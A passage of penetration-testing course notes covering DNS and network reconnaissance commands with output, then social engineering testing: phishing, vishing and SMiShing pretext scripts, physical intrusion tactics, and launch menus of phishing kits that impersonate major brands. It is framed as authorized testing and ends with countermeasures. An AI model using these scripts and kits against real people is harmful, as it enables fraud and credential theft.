[*] 	 CNAME www.microsoft.com-c-3.edgekey.net.globalredir.akadns.net e13678.dscb.akamaiedge.net
[*] 	 A e13678.dscb.akamaiedge.net 184.51.137.178
[*] 	 CNAME www.microsoft.com www.microsoft.com-c-3.edgekey.net
[*] 	 CNAME www.microsoft.com-c-3.edgekey.net www.microsoft.com-c-3.edgekey.net.globalredir.akadns.net
[*] 	 CNAME www.microsoft.com-c-3.edgekey.net.globalredir.akadns.net e13678.dscb.akamaiedge.net
[*] 	 AAAA e13678.dscb.akamaiedge.net 2001:4457:fe4:185::356e
[*] 	 AAAA e13678.dscb.akamaiedge.net 2001:4457:fe4:199::356e
[*] 	 AAAA e13678.dscb.akamaiedge.net 2001:4457:fe4:180::356e
[*] 	 AAAA e13678.dscb.akamaiedge.net 2001:4457:fe4:18c::356e
[*] 	 AAAA e13678.dscb.akamaiedge.net 2001:4457:fe4:192::356e
[*] Enumerating SRV Records
[+] 0 Records Found
```

### dnsenum

```
$dnsenum -enum google.com
dnsenum VERSION:1.2.6

-----   google.com   -----


Host's addresses:
__________________

google.com.                              116      IN    A        172.217.26.142


Name Servers:
______________

ns4.google.com.                          21599    IN    A        216.239.38.10
ns2.google.com.                          21599    IN    A        216.239.34.10
ns1.google.com.                          21599    IN    A        216.239.32.10
ns3.google.com.                          21599    IN    A        216.239.36.10


Mail (MX) Servers:
___________________

aspmx.l.google.com.                      292      IN    A        74.125.204.26
alt4.aspmx.l.google.com.                 292      IN    A        142.250.152.26
alt1.aspmx.l.google.com.                 242      IN    A        142.250.141.26
alt3.aspmx.l.google.com.                 292      IN    A        64.233.171.26
alt2.aspmx.l.google.com.                 242      IN    A        142.250.115.26

```

## Performing Reverse Lookups

While a DNS lookup is used for finding the IP addresses for a given domain name, and a reverse DNS lookup is performed to obtain the domain name of a given IP address. When a user types a domain name in browser to look for a domain, the DNS converts that domain name into an IP address and forwards the request for further processing. This conversion of a domain name to an IP address is performed by an A record. Reverse DNS lookup can be performed on an IP range to locate a DNS PTR record for those IP addresses.

When an IP address or a range of IP address is available, penetration testers can perform reverse DNS lookups to obtain the corresponding domain name. Tools such as dnsrecon and Reverse IP Domain Check can be used for performing reverse DNS lookups on the target host.

### dnsrecon

```
dnsrecon -r 162.240.0.0-162.241.255.255
```

### Reverse IP Domain check

https://www.yougetsignal.com/


## Performing DNS Zone Transfer

- If the DNS server allows zone transfers, then use this technique to obtain DNS server names, hostnames, machine names, usernames, IP addresses, aliases, etc. assigned within a target domain.

- Perform DNS zone transfer using tools such as nslookup, dig, and dnsrecon. If the DNS zone transfer setting is enabled on the target name server, it will give the DNS information; else, it will return an error saying it has failed or will deny the zone transfer.

### Linux DNS zone transfer using the dig command 

#### Dig

```
#dig ns certifiedhacker.com

; <<>> DiG 9.16.15-Debian <<>> ns certifiedhacker.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 35770
;; flags: qr rd ra; QUERY: 1, ANSWER: 2, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 512
;; QUESTION SECTION:
;certifiedhacker.com.		IN	NS

;; ANSWER SECTION:
certifiedhacker.com.	21599	IN	NS	ns2.bluehost.com.
certifiedhacker.com.	21599	IN	NS	ns1.bluehost.com.

;; Query time: 220 msec
;; SERVER: 8.8.8.8#53(8.8.8.8)
;; WHEN: Sat Aug 14 08:12:06 PST 2021
;; MSG SIZE  rcvd: 93
```

```
#dig @ns1.bluehost.com. certifiedhacker.com axfr

; <<>> DiG 9.16.15-Debian <<>> @ns1.bluehost.com. certifiedhacker.com axfr
; (1 server found)
;; global options: +cmd
; Transfer failed.
```

##### Dnsrecon

```
#dnsrecon -t axfr -d certifiedhacker.com
[*] Testing NS Servers for Zone Transfer
[*] Checking for Zone Transfer for certifiedhacker.com name servers
[*] Resolving SOA Record
['SOA', 'ns1.bluehost.com', '162.159.24.80']
[+] 	 SOA ns1.bluehost.com 162.159.24.80
[*] Resolving NS Records
[-] Could not Resolve NS Records: name 're' is not defined
[*] Removing any duplicate NS server IP Addresses...
[*]  
[*] Trying NS server 162.159.24.80
[+] [] Has port 53 TCP Open
```


### Windows DNS zone transfer using the nslookup command

#### Nslookup

## Drawing a Network Diagram using Traceroute Analysis

A penetration tester must identify the structure of the target organization’s network. By identifying the structure of the network, they can draw the network diagram of the target network to obtain information such as its topology, path to the target hosts in the network and position of firewalls, intrusion detection systems (IDSs), trusted routers, and other access-control devices in the network. By identifying the devices connected in the network, the vulnerabilities in those devices can be discovered.

### Traceroute tools

- traceroute

  ```
  #traceroute microsoft.com
  traceroute to microsoft.com (104.215.148.63), 30 hops max, 60 byte packets
   1  192.168.101.2 (192.168.101.2)  10.645 ms  9.911 ms  9.396 ms
   2  119.95.128.1.static.pldt.net (119.95.128.1)  13.335 ms  13.542 ms  13.727 ms
   3  122.2.175.190.static.pldt.net (122.2.175.190)  13.256 ms  13.878 ms 122.2.175.166.static.pldt.net (122.2.175.166)  18.825 ms
   4  210.213.133.29.static.pldt.net (210.213.133.29)  13.328 ms 210.213.133.31.static.pldt.net (210.213.133.31)  17.153 ms  17.091 ms
   5  115.146.174.98 (115.146.174.98)  17.519 ms  18.085 ms  19.300 ms
   6  ae25-0.icr02.sg3.ntwk.msn.net (104.44.237.51)  52.553 ms  55.012 ms  54.847 ms
  ```

- tracert

  ```
  C:\windows\system32> tracert microsoft.com
  ```

- nmap

  ```
  #nmap --traceroute --script traceroute-geolocation www.certifiedhacker.com
  Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-14 08:38 PST
  Nmap scan report for www.certifiedhacker.com (162.241.216.11)
  Host is up (0.44s latency).
  rDNS record for 162.241.216.11: box5331.bluehost.com
  Not shown: 983 closed ports
  PORT     STATE    SERVICE
  21/tcp   open     ftp
  22/tcp   open     ssh
  25/tcp   filtered smtp
  26/tcp   open     rsftp
  53/tcp   open     domain
  80/tcp   open     http
  110/tcp  open     pop3
  143/tcp  open     imap
  443/tcp  open     https
  465/tcp  open     smtps
  587/tcp  open     submission
  993/tcp  open     imaps
  995/tcp  open     pop3s
  2222/tcp open     EtherNetIP-1
  2525/tcp filtered ms-v-worlds
  3306/tcp open     mysql
  5432/tcp open     postgresql
  
  Host script results:
  | traceroute-geolocation: 
  |   HOP  RTT     ADDRESS                                                       GEOLOCATION
  |   1    23.15   192.168.101.2                                                 - ,- 
  |   2    36.22   119.95.128.1.static.pldt.net (119.95.128.1)                   - ,- 
  |   3    33.27   122.2.175.190.static.pldt.net (122.2.175.190)                 14.595,120.972 Philippines ()
  |   4    25.62   210.213.131.101.static.pldt.net (210.213.131.101)             14.595,120.972 Philippines ()
  |   5    177.60  210.213.131.117.static.pldt.net (210.213.131.117)             14.595,120.972 Philippines ()
  |   6    173.47  ce-0-13-0-3.r01.lsanca07.us.bb.gin.ntt.net (168.143.228.168)  37.751,-97.822 United States ()
  |   7    177.62  ae-6.r24.lsanca07.us.bb.gin.ntt.net (129.250.3.122)           37.751,-97.822 United States ()
  |   8    201.85  ae-3.r24.dllstx09.us.bb.gin.ntt.net (129.250.7.68)            37.751,-97.822 United States ()
  |   9    201.88  ae-0.r29.dllstx09.us.bb.gin.ntt.net (129.250.2.90)            37.751,-97.822 United States ()
  |   10   201.85  ae-9.r10.dllstx09.us.bb.gin.ntt.net (129.250.2.103)           37.751,-97.822 United States ()
  |   11   ...
  |   12   204.83  162-215-243-23.unifiedlayer.com (162.215.243.23)              37.751,-97.822 United States ()
  |   13   203.59  162-215-243-23.unifiedlayer.com (162.215.243.23)              37.751,-97.822 United States ()
  |   14   203.90  po100.router2a.hou1.net.unifiedlayer.com (162.241.0.3)        37.751,-97.822 United States ()
  |   15   213.54  po101.router2a.hou1.net.unifiedlayer.com (162.241.0.7)        - ,- 
  |   16   221.51  108-167-150-122.unifiedlayer.com (108.167.150.122)            37.751,-97.822 United States ()
  |_  17   202.01  box5331.bluehost.com (162.241.216.11)                         37.751,-97.822 United States ()
  
  TRACEROUTE (using port 8080/tcp)
  HOP RTT       ADDRESS
  1   23.15 ms  192.168.101.2
  2   36.22 ms  119.95.128.1.static.pldt.net (119.95.128.1)
  3   33.27 ms  122.2.175.190.static.pldt.net (122.2.175.190)
  4   25.62 ms  210.213.131.101.static.pldt.net (210.213.131.101)
  5   177.60 ms 210.213.131.117.static.pldt.net (210.213.131.117)
  6   173.47 ms ce-0-13-0-3.r01.lsanca07.us.bb.gin.ntt.net (168.143.228.168)
  7   177.62 ms ae-6.r24.lsanca07.us.bb.gin.ntt.net (129.250.3.122)
  8   201.85 ms ae-3.r24.dllstx09.us.bb.gin.ntt.net (129.250.7.68)
  9   201.88 ms ae-0.r29.dllstx09.us.bb.gin.ntt.net (129.250.2.90)
  10  201.85 ms ae-9.r10.dllstx09.us.bb.gin.ntt.net (129.250.2.103)
  11  ...
  12  204.83 ms 162-215-243-23.unifiedlayer.com (162.215.243.23)
  13  203.59 ms 162-215-243-23.unifiedlayer.com (162.215.243.23)
  14  203.90 ms po100.router2a.hou1.net.unifiedlayer.com (162.241.0.3)
  15  213.54 ms po101.router2a.hou1.net.unifiedlayer.com (162.241.0.7)
  16  221.51 ms 108-167-150-122.unifiedlayer.com (108.167.150.122)
  17  202.01 ms box5331.bluehost.com (162.241.216.11)
  ```


## Creating a Topological Map of the Network

- Create physical and logical topology maps of the target organization's network based on the information gathered in the previous step.
- The physical topology map shows the placement of various components of the network such as servers, clients, routers, and hubs, including their location and cable installation, while the logical
  topology map shows how data flow within a network.
- Use tools such as **SmartDraw**, **Gliffy**, etc.

### SmartDraw

https://www.smartdraw.com/

### Gliffy

https://www.gliffy.com/


## Automating the OSINT Proces using Tools / Framework / Scripts

### Maltego


### FOCA

https://github.com/ElevenPaths/FOCA


### Fsociety

https://github.com/ElevenPaths/FOCA


### Pentmenu

https://github.com/GinjaChris/pentmenu.git


## Document the Result


# Module 4 Social Engineering Penetration Testing

## Social Engineering Penetration Testing: An Overview

- Social engineering is the art of **manipulating people to divulge sensitive information** with the objective of performing a malicious action.

- The objective of performing social engineering penetration testing is to t**est the strengths and weaknesses of human factors** in a security chain within the organization.
- Social engineering pen test is often used to **raise the level of security awareness among employees** by allowing them to experience a real attack, without having an actual breach.
- The tester **should demonstrate extreme care and professionalism** when conducting the social
  engineering pen test, as it might involve legal issues such as violation of privacy and may create embarrassing situations for the organization.
  

## Skills Required to Perform Social Engineering Pen Test

Social engineering penetration tests require tricking target employees into disclosing sensitive private or professional data, corrupting their computers with malware, or enticing them to click links to malicious sites. Therefore, pen testers should possess the following skills to persuade or elicit the targets into performing favorable actions.

- **Good communication skills**: To perform social engineering, penetration testers must have good verbal and nonverbal communication skills. These skills will help them confidently present themselves as vendors or customers and manipulate targets to reveal private information. Good verbal skills will help in direct or mobile conversations, while nonverbal skills will make it easy to create efficient phishing emails.
- **Creativity**: Being creative helps testers think of fake events, scenarios, and messages based on the interests of the targets to provoke them into revealing information. Pen testers use the social media activities of victims to determine their interests, after which they use their creativity to build scenarios based on these results. In addition, creativity helps in devising and implementing strategies that testers can use to take advantage of new technologies and situations within an organization.
- **Good interpersonal skills**: Interpersonal skills include skills such as_ listening, questioning, and understanding the body language of a person. These skills help testers build rapport with the victims, gain their trust, and request them to provide the required data.
- **Talkative and friendly nature**: Having an extroverted and outgoing personality may help the pen tester, as the victim may be more willing to converse and reveal sensitive information.
  

## Black-Box or White-Box Testing?

We now discuss two techniques of social engineering penetration testing, namely, black-box or white-box testing. These techniques differ in terms of the information disclosed by the
organization to the tester.

### White-box social engineering penetration testing

In white-box social engineering penetration testing or clear-box testing, the organization provides testers with the information of target employees. The provided information includes names, phone numbers, email addresses, and location of the target. In some cases, the organization may also define specific social engineering methods that the tester needs to implement.

**Advantages:**

- The clients can decide the target and the information they need to test.

- It helps in detecting insider threats quickly.

- Testing consumes less time, as the client provides most of the information about the target and the organization’s security structure.

**Disadvantages:**

- The scope of testing is limited to the assigned targets only.

- This method may not cover physical means of accessing information.

### Black-box social engineering penetration testing:

In black-box social engineering penetration testing, also called a trial-and-error approach, the client does not provide any information about the target to the tester.


The tester must employ open-source intelligence techniques to gather information about the targets. This technique is the same as real-world social engineering attack situations. This type of testing is time-consuming, as the tester needs to collect information about the employees, systems, and security, and implement customized techniques based on the target.

**Advantages:**

- This method mimics real-life attack situations.
- Testers can decide the type and methods of the attack.

**Disadvantages:**

- This type of testing is difficult to design due to the wide range of targets.
- Gathering information is time-consuming.
  

## Social Engineering Penetration Testing Modes

When considering security, users are believed to be the weakest link; however, many organizations allow users to have more than the necessary privileges to perform their jobs. Social engineering pen testing allows the pen tester to test such types of users and identify those who are susceptible to social engineering tactics.

Social engineering pen testing involves two different modes, namely off-site testing and on-site testing:

### Off-site testing

Off-site testing involves testing employees’ security awareness during their daily activities. To perform off-site social engineering pen testing, first, the tester needs to gather publicly available information about the organization through passive reconnaissance techniques. The tester can obtain important information from the company’s website, search engines, social networking sites, the company’s annual
reports, etc.

Techniques used in off-site social engineering include the following:

#### Phishing

Phishing is a technique in which the pen tester sends an email or provides a link that falsely claims to be from a legitimate site in an attempt to acquire a user’s personal or account information. When the user clicks on the email link, it redirects them to a fake webpage, where they are lured into sharing sensitive details such as address and credit card information without knowing that they are on a phishing site.


#### Vishing

Vishing (voice phishing or Voice over IP (VoIP) phishing) is an impersonation technique in which the pen tester uses VoIP technology to trick individuals into revealing their critical financial and personal information. In this technique, pen testers call employees, pretending to be a customer or vendor who needs assistance and requests them for information. Pen testers generally choose nontechnical employees and request them to provide basic information regarding the organization. The testers can also use real names of vendors or customers associated with the organization to convince the employees. After gaining their trust, pen testers try to gather sensitive information.

#### SMiShing

In SMiShing (SMS Phishing), the SMS text messaging system is used to lure users into instant action such as downloading malware, visiting a malicious webpage, or calling a fraudulent phone number. SMiShing messages are crafted to provoke an instant action from the victim, requiring them to divulge their personal information and account details.

### On-site testing

On-site testing involves testing the physical security of an organization and the security policies in place. To perform on-site social engineering pen testing, the pen tester disguises themselves as an authorized person to enter the target premises.

Techniques used in on-site social engineering include the following:

#### Piggybacking

Piggybacking usually implies entry into the building or security area with the consent of an authorized person who is not aware of the pen tester’s identity. For example, pen testers request an authorized person to unlock a security door, saying that they have forgotten their ID badge. In the interest of common courtesy, the authorized person might allow the pen tester to pass through the door.

#### Tailgating
Tailgating implies access to a building or secured area without the consent of an authorized person. It refers to the act of following an authorized person through a secure entrance, exploiting the fact that a polite user opens and holds the door for those following them. In this technique, a pen tester wears a fake badge/ID and attempts to enter the secured area by closely following an authorized person
through a door requiring key access.

#### Eavesdropping

Eavesdropping refers to an unauthorized person listening to a conversation or reading others’ messages. It includes interception of any form of communication, including audio, video, or written communication, using channels such as telephone lines, email, and instant messaging. The pen tester can obtain sensitive information such as passwords, business plans, phone numbers, and addresses.


#### Shoulder surfing

Shoulder surfing is the technique of observing or looking over someone's shoulder as they key in information into a device. The pen tester can use shoulder surfing to find out passwords, personal identification numbers (PINs), account numbers, and other information.

#### Baiting

Baiting is a technique in which pen testers tempt the target user with something alluring in exchange for important information such as login details and other sensitive data. In this technique, pen testers leave a physical device such as a USB flash drive containing malicious files in locations where people can easily find them including parking lots, elevators, and bathrooms. This physical device is labeled with a legitimate company logo relevant to the target user, which is used to trick them into finding and open such devices on their systems. Once the device is connected and opened by the victim, a malicious file gets downloaded and the system becomes infected, which allows pen testers to take control over the victim's system.

#### Reverse social engineering

In reverse social engineering, the pen tester assumes the role of a person in authority so that employees ask them for information. The pen tester manipulates the questions that employees ask in a manner than the employees themselves give up the required information.

#### Dumpster diving

Dumpster diving is the process of retrieving sensitive personal or organizational information by searching through trash bins. The pen tester can extract confidential data such as user IDs, passwords, policy numbers, network diagrams, account numbers, bank statements, salary data, source code, sales forecasts, access codes, phone lists, credit card numbers, calendars, and organizational charts on paper or disk

#### Elicitation

Elicitation is the technique of extracting information from the victim by drawing them into normal and disarming conversations. To elicit information, the pen tester needs to initiate a casual conversation with the target user to extract information without making them realize that they are being socially engineered

#### Motivation techniques

The pen tester can use motivation techniques such as authority, intimidation, consensus/social proof, scarcity, and urgency, in order to make the victims reveal sensitive information about the organization.

Note: Eavesdropping can be used for both on-site and off-site testing.

## Social Engineering Penetration Testing Process

**Do Remember: Before Social Engineering Pen Test**

- Penetration testers must be aware of the local laws, as some of their actions may infringe on lberty, resulting in potential legal action.
- Be aware of social engineering pretext agreed to in the Rules of Engagement (ROE).


To perform social engineering penetration testing, the pen tester needs to follow the below-mentioned four well-defined steps.

### 1. Test Planning and Scoping

- The pen tester needs to conduct a meeting between the management of the client organization and the pen testing team to define the scope of pen testing and decide how to perform it.
- The scoping document must contain all the techniques and methods to be used in the pen test.
- Test planning and scoping help you create a clear contract that is agreed upon and signed by all parties involved before the pen testing is undertaken.
  

### 2. Target Identification

- Based on the scoping document and pen testing contract, you need to identify the victim.
- Choose victims or groups of victims who can be easily tricked.

#### Common Targets of Social Engineering Pen Test 

- Users/Clients
- Receptionists/Help-desk personnel
- Vendors of the organization
- Technical support executives
- System administrators 
- Disgruntled/Mistreated Employees
- Employees who are less aware
- Recently fired employees
  

 #### Gather Information About the Targets

- Search for names, phone numbers, designation, and other details of employees on the company’s website
- Search through online platforms, phone, and email.
- Search using social networking sites.
- Search on job sites such as Linkedin and Glassdoor.

### 3.  Penetration Testing Attempt

#### Using email attack vector

Some of the common techniques for performing social engineering pen testing through email
are listed below:

- Identifying a list of users who use a common password for different online accounts
- Sending some information (sweepstakes) related to lottery or gifts to the user and requesting them to provide their full name, email ID, password, and address through an online submission form
- Introducing themselves as a network administrator, the pen tester sends emails to users through the network and asks them to provide a password.
- Installing pop-up windows on the network and asking users to re-enter their username and password
- Trying to trick victims by sending spoofed emails that seem to be coming from real sources. These emails can be warning messages asking users to manage their mailbox storage space by logging in to some fake website. The pen tester can also pretend to be an employee and send requesting emails that ask for company records.


The pen tester can leverage the email addresses collected in the target identification phase to perform email-based social engineering attacks. They can send phishing or spear-phishing emails to the victims, trick them, and gather sensitive information. They can also actively gather information using email messages.

The tester can perform the following attacks using the email attack vector:

- Phishing 

  

- Whaling

  

- Spear phishing 

  **Examples of spear phishing:**

  1. The pen tester can send a spoofed mail embedded with a fake link to the system administrator of the target organization claiming that they are an authorized professional for IT services.

  2. The pen tester can claim that their company is offering a free new service for a limited
  time to the target organization and invite the user to sign in using business email to avail
  the free service

  3. When the user clicks on the link, they will be redirected to a fake website that looks

     

  

- Pharming

  **Example of pharming:**

  - The pen tester sends a malicious code as an email attachment.
  - When the user clicks on the attachment, the code is executed on their personal computer, modifying local host files.
  - When the victim enters the target website’s URL in the browsers address bar, the compromised host file automatically redirects the user’s traffic to the pharming website created by the pen tester.

  


#### Using telephone attack vector

Using a telephone attack vector is the oldest and most effective social engineering technique. The pen tester can use the telephone numbers of the employees to send fake SMS or make fake calls masquerading as a legitimate bank professional and trick them into revealing sensitive information. Social engineering using telephone calls not only reveals sensitive information; in some cases, it can even compromise the security of the whole organization.

The pen tester can perform the following attacks using telephone attack vector:

- Vishing

  **Attempt Social Engineering Using Phone (Vishing)**

  Vishing (voice or Voice over IP (VoIP) phishing) is an impersonation technique in which pen
  testers use VoIP technology to trick individuals into revealing their critical financial and personal
  information. In this technique, the pen tester uses caller ID spoofing to forge identification. The
  pen tester can also include pre-recorded messages and instructions resembling those from a
  legitimate financial institution. Using this technique, the pen tester can attempt to trick users
  into providing bank account or credit card details for identity verification over the phone.

  Vishing is a combination of phishing and VoIP technology. A pen tester can perform vishing by
  calling employees of the target organization pretending to be a colleague, vendor, or customer
  from a legitimate enterprise and request them to help in accomplishing a certain task or answer
  certain questions. The main targets of vishing include financial institutions, government
  organizations, online sales, payment services, and so on.

  The tester can also send a fake SMS or email message to the target user asking them to call the
  financial institution for credit card or bank account verification. When the user calls on the
  number mentioned in the message, the tester can play the recorded instructions, which insist
  that the target must provide personal and financial information such as name, date of birth,
  social security numbers, bank account numbers, credit card numbers, and credentials like
  usernames and passwords.

  **Three common techniques to perform social engineering using the phone are as follows:**

  - Acting as a customer looking for sensitive information
  - Posing as an employee who forgot their password
  - Pretending to be a technical support member to deceive staff members

  **Pen testers trick users into giving up the following information/performing the following actions:**

  - Contact or schedule information of other employees 
  - Usernames and passwords
  - Trick employees into running commands on their computer and providing information

  **Some of the techniques used to perform social engineering penetration testing using a telephone attack vector are discussed below:**

  - Calling the victim posing as a colleague and asking for sensitive information such as bank account number and passport number

  - Calling the victim pretending to be an important user, gaining their trust, and then asking them various questions to collect information.

  - Posing as an important person of the target organization and trying to collect information

  - Offering various rewards to acquire sensitive information

  - Using deceptive methodologies such as threatening with dire consequences like deactivation of the account unless the target provides sensitive information

  - Making the victim believe that the call is from their organization’s tech support team and requesting sensitive information

  - Using reverse social engineering method and creating situations where victims approach the pen tester themselves and provide sensitive information. For example, sending an email or SMS, informing them that due to security-related issues, users must call a given number or send an email and provide certain details.

  **Example of Social Engineering Using Phone**

  The pen tester pretends to be an employee of a bank, calls a person, and asks them to check their personal information such as account number, debit card number, credit card number, password, or PIN. The pen tester records these details with the help of a video recorder and uses this information for identity theft.

  **The following are a few points to remember while making a call:**

  - The pen tester should call the company’s help desk and ask for sensitive information.

  - The pen tester should call the receptionist, engage them in a conversation, and extract various contact details of the company.

  - The pen tester should make the call sound realistic; rehearsing many times before making the call is advised.

  - The pen tester should have backup answers for every question that the target person is asked.

  - The pen tester should record the conversation for reporting purposes.

  Examples of conversation:

  - Hi, this is Jason, VP of sales. I’m at the New York branch today, and | can’t remember my password. The machine in my home office has that “Remember password” set, so it’s been months since | actually had to enter it. Can you tell me what it is, or reset it or something? | really need to access this month’s sales reports ASAP.

  - Hi, this is Joanna from the Boston branch. I’m the new LAN administrator, and my boss wants this done before he gets back from London.

- SMiShing

  **Attempt Social Engineering Using SMiShing (SMS Phishing)**

  In SMiShing (SMS Phishing), the SMS text messaging system is used to lure users into instant action such as downloading malware, visiting a malicious webpage, or calling a fraudulent phone number. The pen test must craft SMiShing messages to provoke an instant action from the victim, requiring them to divulge their personal information and account details.

  **Example of SMiShing:**

  - Let us take the example of Tracy, a software engineer working in the target company

  - The pen tester sends an SMS to her from the security department of XIM Bank. The SMS must claim to be urgent and say that Tracy should call up the phone number mentioned in the SMS immediately.

  - Worried, Tracy calls up to check on her account, believing it to be an XIM Bank customer service number.

  - The pen tester plays a recorded message that asks her to provide her credit card or debit card number as well as password.

  - Tracy believes it to be a genuine message and shares the sensitive information.

#### Using physical attack vector

Using a physical attack vector, the pen tester can test the physical security of an organization or building. Based on the gathered information such as employee names, their designations, contact details, and company information, the pen tester must focus on entering the buildings of the target company. The pen tester must create various target scenarios based on the identified target in order to identify specific vulnerabilities and meet clear objectives.

Before using the physical attack vector, the pen tester must gather the following information:

- How many branches does the company have?
- Does the company have any other businesses?
- Does the company have secured parking lots?
- Does the company have a trained security guard or guards?
- Is the security guard's office located outside or inside?
- Is the main reception secured?
- How many people work in the reception at any one time?
- Does the company implement security controls such as radio-frequency identification (RFID) or magnetic strip tags?
- Who are the third parties working with the target company?

The above information will help the tester in creating various targeted social engineering scenarios to gain physical access to the target company and identify
physical vulnerabilities in the company’s security systems,

The pen tester can perform the following attacks using the physical attack vector:

- Piggybacking/Tailgating
- Eavesdropping
- Shoulder surfing
- Baiting
- Dumpster diving
- Reverse social engineering
- Elicitation techniques
- Motivation techniques

### 4. Reporting

Reporting is the final step. The pen tester must list all the results of the social engineering pen test in the report. While generating the report, the pen tester should consider the target audience of the report. Generally, in most cases, the audience comprises the senior management of the organization. The report should address all the relevant aspects pertaining to the initial planning and scoping, target identification, tests conducted, and identified vulnerabilities. Along with the identified vulnerabilities, the report must also include the recommendations and countermeasures required to mitigate the identified vulnerabilities and
thwart future attacks.

**The social engineering pen test report must contain the following elements.**

1. **Cover page**: Contains customer name, logo, and date of the report
2. **Title page**: Contains the name of the author of the report along with version details

3. **Disclaimer page**: Contains a disclaimer statement that describes the agreed upon terms
   and conditions between the tester/testing organization and the target
   organization/individual and extent of disclosure of sensitive information.
4. **Table of contents**: Contains an index of the report
5. **Social engineering overview**: Includes basic information about social engineering
   attacks and how to defend against such attacks
6. **Social engineering methodology**: Includes the methodology used to perform the social
   engineering pen testing
7. **Reporting**: After completing all the tests, the gathered information is used to construct
   the final report, which includes the following details:
   - Introduction (What, Why, When, Where, and How of the report) 
   - Anexecutive summary
   - Individual attack vectors
   - Identified technical risks
   - Potential impact of identified vulnerabilities
   - Remediation steps for each identified vulnerability
   - Recommendations for vulnerability elimination
   - Conclusions of the pen test
     


## Phishing Tools

### OhPhish


### Blackeye

https://github.com/An0nUD4Y/blackeye

```
┌─[sherwinowen@parrot]─[~/MyTools/blackeye]
└──╼ $./blackeye.sh 
     :: Disclaimer: Developers assume no liability and are not    ::
     :: responsible for any misuse or damage caused by BlackEye.  ::
     :: Only use for educational purporses!!                      ::

     ::     BLACKEYE v1.5! By @suljot_gjoka & @thelinuxchoice     ::

          [01] Instagram      [17] DropBox        [33] eBay               
          [02] Facebook       [18] Adobe ID       [34] Amazon         
          [03] Snapchat       [19] Shopify        [35] iCloud          
          [04] Twitter        [20] Messenger      [36] Spotify          
          [05] Github         [21] GitLab         [37] Netflix          
          [06] Google         [22] Twitch         [38] Custom         
          [07] Origin         [23] MySpace                 
          [08] Yahoo          [24] Badoo                   
          [09] Linkedin       [25] VK                      
          [10] Protonmail     [26] Yandex                  
          [11] Wordpress      [27] devianART               
          [12] Microsoft      [28] Wi-Fi                   
          [13] IGFollowers    [29] PayPal                  
          [14] Pinterest      [30] Steam                                
          [15] Apple ID       [31] Bitcoin                               
          [16] Verizon        [32] Playstation                               

[*] Choose an option: 
```


### ShellPhish

https://github.com/AbirHasan2005/ShellPhish

```
       __  _             _  _           _               _      
      / / | | v2.5-MOD  | || | ______  | |     _       | |     
     / /  | |           | || |(_____ \ | |    (_)      | |     
     \ \  | |___   ____ | || | _____) )| |___  _   ___ | |___  
      \ \ | |_  | / _  )| || ||  ____/ | |_  || | /___)| |_  | 
  _____) )| | | |( (/ / | || || |      | | | || ||___ || | | | 
 (______/ |_| |_| \____)|_||_||_|      |_| |_||_|(___/ |_| |_| 

       .:.:. Phishing Tool Moded by @AbirHasan2005 .:.:.

  :: Disclaimer: Developers assume no liability and are not    ::
  :: responsible for any misuse or damage caused by ShellPhish ::
 
 .:. Choose any social site which you want to hack .:.
 
 [01] Facebook     [11] Twitch       [21] DeviantArt
 [02] Instagram    [12] Pinterest    [22] Badoo
 [03] Google       [13] Snapchat     [23] Origin
 [04] Microsoft    [14] Linkedin     [24] CryptoCoin
 [05] Netflix      [15] Ebay         [25] Yahoo
 [06] PayPal       [16] Dropbox      [26] Wordpress
 [07] Steam        [17] Protonmail   [27] Yandex
 [08] Twitter      [18] Spotify      [28] StackoverFlow
 [09] PlayStation  [19] Reddit       [29] VK
 [10] GitHub       [20] Adobe

 [ST] Termux Setup [SL] Linux Setup  [EX] Exit

 [~] Select an option: 
```


### LUCY

https://lucysecurity.com/

### SET

https://github.com/trustedsec/social-engineer-toolkit

```

         .M"""bgd `7MM"""YMM MMP""MM""YMM
        ,MI    "Y   MM    `7 P'   MM   `7
        `MMb.       MM   d        MM
          `YMMNq.   MMmmMM        MM
        .     `MM   MM   Y  ,     MM
        Mb     dM   MM     ,M     MM
        P"Ybmmd"  .JMMmmmmMMM   .JMML.

[---]        The Social-Engineer Toolkit (SET)         [---]
[---]        Created by: David Kennedy (ReL1K)         [---]
                      Version: 8.0.3
                    Codename: 'Maverick'
[---]        Follow us on Twitter: @TrustedSec         [---]
[---]        Follow me on Twitter: @HackingDave        [---]
[---]       Homepage: https://www.trustedsec.com       [---]
        Welcome to the Social-Engineer Toolkit (SET).
         The one stop shop for all of your SE needs.

   The Social-Engineer Toolkit is a product of TrustedSec.

           Visit: https://www.trustedsec.com

   It's easy to update using the PenTesters Framework! (PTF)
Visit https://github.com/trustedsec/ptf to update all your tools!


 Select from the menu:

   1) Social-Engineering Attacks
   2) Penetration Testing (Fast-Track)
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About

  99) Exit the Social-Engineer Toolkit
```


## Social Engineering Countermeasures and Recommendations

| Social Engineering Targets                  | Attack Techniques                                            | Defense Strategies                                           |
| ------------------------------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| Front office and help desk                  | Eavesdropping, shoulder surfing, impersonation, persuasion, and intimidation | Train employees/help desk to never< reveal passwords or other information by phone. Enforce policies for the front office and help desk personnel. |
| Technical support and system administrators | Impersonation, persuasion, intimidation, fake SMS, phone calls, and emails | Train technical support executives and system administrators to never reveal passwords or other information by phone or email. |
| Perimeter security                          | Impersonation, reverse social engineering, piggybacking, tailgating, etc. | Implement strict badge, token, or biometric authentication; employee training; and strict monitoring by security guards. |
| Office                                      | Shoulder surfing, eavesdropping, ingratiation, etc.          | Employee training, best practices, and checklists for using passwords. Ensure that all guests are escorted by an employee or relevant personnel. |
| Vendors of the  target organization         | Impersonation, persuasion, intimidation                      | Educate vendors about social engineering.                    |
| Mail room                                   | Theft, damage, or forging of mails                           | Lock and monitor mail room, including employee training      |
| Machine room/Phone closet                   | Attempting to gain access, remove equipment, and/or attach a ptotocol analyzer to obtain the confidential data | Keep phone closets, serverrooms, etc. locked at all times and keep equipment inventory updated. |
| Company's executives                        | Fake SMS, phone calls, and emails to obtain confidential data | Train executives to never reveal identity, passwords, or other confidential information by phone or email. |
| Dumpsters                                   | Dumpstersdiving                                              | Keep all trash in secured and monitored shred important data, and erase magnetic media. |

# Module 05 Network Penetration Testing -External

## Network Penetration Testing

